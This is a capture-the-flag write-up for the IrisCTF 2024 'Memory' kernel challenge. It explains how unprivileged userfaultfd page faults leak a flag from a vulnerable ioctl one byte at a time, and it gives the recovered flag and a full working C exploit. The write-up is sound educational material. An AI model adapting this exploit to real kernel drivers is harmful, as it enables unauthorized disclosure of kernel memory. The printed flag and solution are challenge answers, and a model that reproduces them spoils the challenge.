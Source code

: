 # Memory - IrisCTF 2024 (pwn, 42 solved, 421p)

## Introduction
Memory is a pwn task.

An archive containing the source code of a kernel module, a Makefile and a
Dockerfile is given.

## Reverse engineering
The kernel module creates a new device called `primer` with an ioctl handler.

The ioctl handler only handles a single ioctl defined as `IOCTL_QUERY`.

This ioctl takes a 64-bit argument that contains two values: an address encoded
in the least 56 bits and an index encoded in the 8 most significant bits.

```
................................................................
iiiiiiii
        aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

The module will then fetch a byte at address `addr + flag[index]`.

## Vulnerabilities
The virtual machine used on the remote server allows an unprivileged user to use
the `userfaultfd` syscall.

```
$ cat /proc/sys/vm/unprivileged_userfaultfd
1
```

It is possible to use `userfaultfd` to intercept a page fault when the kernel
module fetches an unmapped page.

## Exploitation
It is possible to use `userfaultfd` to know what *page* has been fetched by the
kernel module, but not the exact address.

By allocating two pages and registering those pages with `userfaultfd`, it
becomes possible to know check if `flag[i] >= k`.

When sending a pointer of `map + 0x1000 - k`, if the previous assertion is true,
then the kernel module will fetch from the second page, otherwise it will fetch
from the first page.

With this primitive in hand, the exploitation becomes straightforward: try every
bytes in the range `0x20..0x80` until the assertion becomes false to find a
single character of the flag. Repeat the operation until the final `}`.

**Flag**: `irisctf{the_cache_always_remembers}`

## Appendices
### pwn.c
```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <sys/mman.h>
#include <pthread.h>

#include <unistd.h>
#include <fcntl.h>
#include <stdint.h>

#include <sys/syscall.h>
#include <linux/userfaultfd.h>
#include <sys/ioctl.h>

#include <linux/ioctl.h>

#define MAJOR_NUM 100

#define IOCTL_QUERY _IOR(MAJOR_NUM, 0, unsigned long)
#define DEVICE_FILE_NAME "primer"


int userfaultfd(int flags)
{
	return syscall(SYS_userfaultfd, flags);
}

static long query(int fd, void *addr, unsigned char c)
{
	uint64_t x = (uint64_t)addr;
	x &= 0x00FFFFFFFFFFFFFFl;
	x |= (uint64_t)c << 56;

	return ioctl(fd, IOCTL_QUERY, x);
}

static void* handler(void *arg)
{
	int uffd = *(int*)arg;

	struct uffd_msg msg;
	ssize_t n = read(uffd, &msg, sizeof(msg));

	if(n <= 0) {
		printf("oops\n");
		return NULL;
	}

	if(UFFD_EVENT_PAGEFAULT != msg.event)
		printf("event = %X\n", msg.event);

	struct uffdio_zeropage zero = {
		.range    = {msg.arg.pagefault.address, 0x1000},
		.mode     = 0,
		.zeropage = 0,
	};

	if(0 != ioctl(uffd, UFFDIO_ZEROPAGE, &zero))
		perror("UFFDIO_ZEROPAGE");

	return msg.arg.pagefault.address;
}

static int uffd_prepare(void)
{
	int uffd = userfaultfd(O_CLOEXEC);
	if(uffd < 0) {
		perror("userfaultfd");
		return -1;
	}

	// UFFDIO_API
	struct uffdio_api api = {
		.api      = UFFD_API,
		.features = 0,
		.ioctls   = 0,
	};

	if(0 != ioctl(uffd, UFFDIO_API, &api)) {
		perror("ioctl(UFFDIO_API)");
		close(uffd);
		return -1;
	}

	return uffd;
}

int main(void)
{
	// Open uffd
	int uffd = uffd_prepare();
	if(uffd < 0)
		return EXIT_FAILURE;

	// Open device
	int fd = open("/dev/primer", O_RDONLY);
	if(fd < 0) {
		perror("open");
		goto err1;
	}

	void *map = NULL;
	char flag[0x80] = {};

	for(size_t i = 0; i < sizeof(flag); i++) {
		for(size_t j = 0x20; j < 0x80; j++) {
			map = mmap((void*)0xCAFE0000, 0x2000, PROT_READ,
				MAP_ANONYMOUS | MAP_PRIVATE | MAP_FIXED, -1, 0);

			if(MAP_FAILED == map) {
				perror("mmap");
				goto err2;
			}

			// UFFDIO_REGISTER
			struct uffdio_register reg = {
				.mode   = UFFDIO_REGISTER_MODE_MISSING,
				.ioctls = 0,
				.range  = {
					.start = (unsigned long long)map,
					.len = 0x2000
				},
			};

			// Create thread
			pthread_t thread;
			if(0 != pthread_create(&thread, NULL, handler, &uffd)) {
				perror("pthread_create");
				goto err3;
			}

			if(0 != ioctl(uffd, UFFDIO_REGISTER, &reg)) {
				perror("ioctl(UFFDIO_REGISTER");
				goto err3;
			}

			// Trigger fault
			query(fd, map + 0x1000 - j - 1, i);

			// Get rid of the thread
			void *ret = NULL;
			if(0 != pthread_join(thread, &ret)) {
				perror("pthread_detach");
				goto err3;
			}


			// Unmap pages
			munmap(map, 0x2000);

			if(map == ret) {
				flag[i] = j;
				break;
			}
		}

		if(flag[i] == 0 || flag[i] == '}')
			break;
	}

	puts(flag);

	close(fd);
	close(uffd);
	return EXIT_SUCCESS;

err3:
	munmap(map, 0x2000);

err2:
	close(fd);
err1:
	close(uffd);
	return EXIT_FAILURE;
}
```
